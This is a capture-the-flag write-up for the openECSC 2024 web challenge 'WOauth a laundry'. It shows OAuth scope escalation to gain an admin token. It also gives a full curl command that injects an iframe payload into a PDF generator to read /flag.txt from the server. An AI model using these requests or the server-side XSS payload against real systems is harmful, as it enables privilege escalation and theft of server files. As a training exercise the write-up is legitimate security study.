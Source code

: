 # WOauth a laundry!
> ### Category: web
>
> Welcome to our innovative business, the only ONE Laundry capable of completely sanitize your clothing by removing 100% of bacteria and viruses.
>
> Flag is in /flag.txt.
>
> Site: [http://woauthalaundry.challs.open.ecsc2024.it](http://woauthalaundry.challs.open.ecsc2024.it)
## Initial recon
Initially, the site appears to be empty. Some content appears after the `Login` button is pressed:

![media/website_0.png](media/website_0.png)

## API token
There are no cookies saved on the client side, however there are some interesting values in the session storage:

![media/website_1.png](media/website_1.png)

There appears to be some kind of API token and there's also a field `admin` set to 0. If we change it to 1 and reload the website, a new `Admin` tab will appear. It contains a single button `Generate report` which will attempt to perform a web request resulting in `401 Unauthorized` when pressed:

![media/website_2.png](media/website_2.png)

Let's investigate how the access token is generated. Log out, set a breakpoint on XHR requests and log back in:

The first performed requests seems to be fetching some sort of credentials:

![media/xhr_0.png](media/xhr_0.png)

This can be confirmed by performing it in curl:
```
$ curl http://woauthalaundry.challs.open.ecsc2024.it/api/v1/creds
{"client_id":"tAWvuF3X7dsp","client_secret":"bc4022e0b07b4e4f9239717a4d314043"}
```
However we don't see anything like the access token we saw in the session storage.

The second request seems like it actually returns the access token:

![media/xhr_1.png](media/xhr_1.png)

The `scope` path argument seems interesting - it is set to `laundry` and `amenities`. Earlier in the session storage we saw values corresponding to keys `laundries`, `amenities` and `admin`, therefore we might want to try adding `admin` to the `scope` (and we can also change the `cliend_id` to the one we got from curl):
```
$ curl 'http://woauthalaundry.challs.open.ecsc2024.it/openid/authentication?response_type=token%20id_token&client_id=tAWvuF3X7dsp&scope=openid%20laundry%20amenities%20admin&redirect_uri=http://localhost:5173/&grant_type=implicit&nonce=nonce'
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://localhost:5173/#access_token=d83088659aa041b1a6d68d1f652b1fae&amp;token_type=Bearer&amp;expires_in=3600&amp;id_token=eyJhbGciOiJSUzI1NiJ9.eyJpc3MiOiAiaHR0cHM6Ly93b2F1dGhhbGF1bmRyeS5jaGFsbHMub3Blbi5lY3NjMjAyNC5pdC9vcGVuaWQiLCAic3ViIjogImYwZDVlOGU0YTE5ZjRkZTlmMTIzNWYyMjViMTYwM2NiMDVjMjEwMGM0OWYyZTQxNzI0YzI4YWE3MDViZmFjNmYiLCAiYXVkIjogWyJ0QVd2dUYzWDdkc3AiXSwgImlhdCI6IDE3MTQ0Nzc4OTIsICJleHAiOiAxNzE0NDgxNDkyLCAiYXRfaGFzaCI6ICJDenNnN3V5cTg2bklwQzlQa2c2aERnIiwgIm5vbmNlIjogIm5vbmNlIn0.bBUny3X6Sf9x6tt-bWIH5RTvzDJPY_KOj7BtUpCz4gGBSKCWxFa0nhlLmfb2S6i3zZiOlioMpje7Yw9FyjuCsWvQQu4H-0992eavZ-OPMlgrX_FSAW7ED9zdf4bkT_HSEG1tbpsIRqIlysZGJoRXTBMoBJQ7cjZQOfkKYaCfWYYyHyb7Ptyr3GCnvUgYAVMLtfdqy_-L-zzT1XrochCxpy_UG0aQeCFUc92ZUWDcXOsUgcwpxnFQfdgaKJlPg29vaH_q8y3hp6CpfdUBNPvAVu0_MOWM_D0ZmtZA6JGHCGqxbHI1mVSBVgveGhRldiEZe3LTHC3UJKQIC2Crw0y9uDS1YhQvUSxGC8juHweuoQcL3E3i5DFixRjbuzansffdy_JWITwh27J6GlNHqfQ3VLcX99NtUzIsHkz6iWWvFu-lVwrBUE66Kk7XhQJnga8Ud-LkahkNBelnl1YqGU5a-h_RyWSoaAfxplwxGjXLEryfPEwJAYaFAK16gONWxJzBK8gYTPng-6CspFBDS-KQto314nbHVqGYLUwvHM_Hqv7k4w3lFSsDBS8SS325lhakZAGzOR77qfqPOldfJ58YXtPm2z27FLI28_9Tgiqyss2tmqJGJVP8asdI46-0IY7ftrEhqYCKINV1QQ1iaJC3Au049j21y8K7aTpCDpnxnOk">http://localhost:5173/#access_token=d83088659aa041b1a6d68d1f652b1fae&amp;token_type=Bearer&amp;expires_in=3600&amp;id_token=eyJhbGciOiJSUzI1NiJ9.eyJpc3MiOiAiaHR0cHM6Ly93b2F1dGhhbGF1bmRyeS5jaGFsbHMub3Blbi5lY3NjMjAyNC5pdC9vcGVuaWQiLCAic3ViIjogImYwZDVlOGU0YTE5ZjRkZTlmMTIzNWYyMjViMTYwM2NiMDVjMjEwMGM0OWYyZTQxNzI0YzI4YWE3MDViZmFjNmYiLCAiYXVkIjogWyJ0QVd2dUYzWDdkc3AiXSwgImlhdCI6IDE3MTQ0Nzc4OTIsICJleHAiOiAxNzE0NDgxNDkyLCAiYXRfaGFzaCI6ICJDenNnN3V5cTg2bklwQzlQa2c2aERnIiwgIm5vbmNlIjogIm5vbmNlIn0.bBUny3X6Sf9x6tt-bWIH5RTvzDJPY_KOj7BtUpCz4gGBSKCWxFa0nhlLmfb2S6i3zZiOlioMpje7Yw9FyjuCsWvQQu4H-0992eavZ-OPMlgrX_FSAW7ED9zdf4bkT_HSEG1tbpsIRqIlysZGJoRXTBMoBJQ7cjZQOfkKYaCfWYYyHyb7Ptyr3GCnvUgYAVMLtfdqy_-L-zzT1XrochCxpy_UG0aQeCFUc92ZUWDcXOsUgcwpxnFQfdgaKJlPg29vaH_q8y3hp6CpfdUBNPvAVu0_MOWM_D0ZmtZA6JGHCGqxbHI1mVSBVgveGhRldiEZe3LTHC3UJKQIC2Crw0y9uDS1YhQvUSxGC8juHweuoQcL3E3i5DFixRjbuzansffdy_JWITwh27J6GlNHqfQ3VLcX99NtUzIsHkz6iWWvFu-lVwrBUE66Kk7XhQJnga8Ud-LkahkNBelnl1YqGU5a-h_RyWSoaAfxplwxGjXLEryfPEwJAYaFAK16gONWxJzBK8gYTPng-6CspFBDS-KQto314nbHVqGYLUwvHM_Hqv7k4w3lFSsDBS8SS325lhakZAGzOR77qfqPOldfJ58YXtPm2z27FLI28_9Tgiqyss2tmqJGJVP8asdI46-0IY7ftrEhqYCKINV1QQ1iaJC3Au049j21y8K7aTpCDpnxnOk</a>. If not, click the link.
```

## Admin panel
It would appear that we actually got a new access token - let's put it in the session storage and try to generate a report once more:

![media/website_3.png](media/website_3.png)

This time we receive a PDF file. Let's try setting a breakpoint on XHR requests again:

![media/xhr_2.png](media/xhr_2.png)

A POST request with an empty body and our token in the `Authorization` header is sent. However, we can notice something interesting in the JavaScript console now:

![media/console_0.png](media/console_0.png)

It seems that this endpoint might expect a `requiredBy` key in the body. Let's try sending a request like this from curl:
```
$ curl -v -X POST http://woauthalaundry.challs.open.ecsc2024.it/api/v1/generate-report -H 'Content-Type: application/json' -H 'Authorization: Bearer d83088659aa041b1a6d68d1f652b1fae' -d '{"requiredBy": "John Doe"}' --output test.pdf
```
This results in a PDF with changed header being generated:

![media/website_4.png](media/website_4.png)

As we can see, the PDF is generated on the server and therefore the application might be vulnerable to server side XSS. We can use an example payload from [HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) to try reading the file with the flag:
```
$ curl -v -X POST http://woauthalaundry.challs.open.ecsc2024.it/api/v1/generate-report -H 'Content-Type: application/json' -H 'Authorization: Bearer d83088659aa041b1a6d68d1f652b1fae' -d '{"requiredBy": "<iframe src=file:///flag.txt></iframe>"}' --output test.pdf
```

![media/website_5.png](media/website_5.png)

## Flag
`openECSC{On3_l4uNdrY_70_ruL3_7h3m_4l1!_d208a530}`